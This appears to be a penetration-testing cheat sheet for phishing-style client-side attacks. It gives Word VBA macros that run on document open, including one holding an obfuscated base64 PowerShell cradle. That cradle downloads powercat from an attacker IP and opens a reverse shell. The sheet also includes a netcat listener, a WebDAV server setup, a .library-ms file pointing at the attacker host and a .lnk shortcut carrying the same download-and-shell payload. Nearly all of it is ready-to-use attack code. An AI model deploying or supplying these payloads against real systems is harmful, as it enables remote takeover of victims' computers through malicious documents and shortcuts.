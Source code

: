 # Macros
```
view -> macros element -> Macros in: Mymacro.doc -> Create 97-2003 word
```

Example Powershell
```
Sub AutoOpen()
	MyMacro
End Sub

Sub Document_Open()
	MyMacro
End Sub

Sub MyMacro ()
' Comment Line
' github.com/steveirwincyber
	CreateObject("Wscript.shell").Run "powershell"



End Sub
```
Powercat
###  base64 this 
IEX(New-Object System.Net-WebClient).DownloadString('http://192.168.45.212/powercat.ps1');powercat -c 192.168.45.212 -p 8080 -e powershell UTF-16LE
python -m http.server /powercat/
nc -nlvp 8080
```
Sub AutoOpen()
	MyMacro
End Sub

Sub Document_Open()
	MyMacro
End Sub

Sub MyMacro ()
' Comment Line
' github.com/steveirwincyber
	Dim Str As String

		Str = Str + "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUA"
		Str = Str + "dwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdA"
		Str = Str + "AtAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBh"
		Str = Str + "AGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5AD"
		Str = Str + "IALgAxADYAOAAuADQANQAuADIAMQAyAC8AcABvAHcAZQByAGMA"
		Str = Str + "YQB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQ"
		Str = Str + "BjACAAMQA5ADIALgAxADYAOAAuADQANQAuADIAMQAyACAALQBw"
		Str = Str + "ACAAOAAwADgAMAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAG"
		Str = Str + "wA"
	CreateObject("Wscript.Shell").Run Str

End Sub
```



# Windows Library
On Kali
```
mkdir /home/kali/webdav
touch /home/kali/webdav/test.txt
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav
```
In WIndows Visual Studio
```
# file -> new text file config.library-ms

<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.212</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription> 

```

shortcut
automatic_configuration.lnk
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.212:8000/powercat.ps1');
powercat -c 192.168.45.212 -p 4444 -e powershell"
```